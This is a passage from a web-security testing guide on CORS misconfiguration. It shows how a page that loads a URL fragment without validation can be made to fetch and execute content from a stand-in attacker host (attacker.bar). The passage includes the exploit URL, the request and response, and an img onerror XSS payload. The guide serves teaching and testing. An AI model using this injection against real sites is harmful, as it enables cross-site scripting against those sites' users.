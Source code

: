 ```html
</body>
```

For example, a request like this will show the contents of the `profile.php` file:

`https://example.foo/main.php#profile.php`

Request and response generated by `https://example.foo/profile.php`:

```html
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: https://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the `example.foo` domain, with a URL like this:

```text
https://example.foo/main.php#https://attacker.bar/file.php
```

Request and response generated by `https://attacker.bar/file.php`:

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: https://example.foo/main.php
origin: https://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```

## References

- [OWASP HTML5 Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [MDN Cross-Origin Resources Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
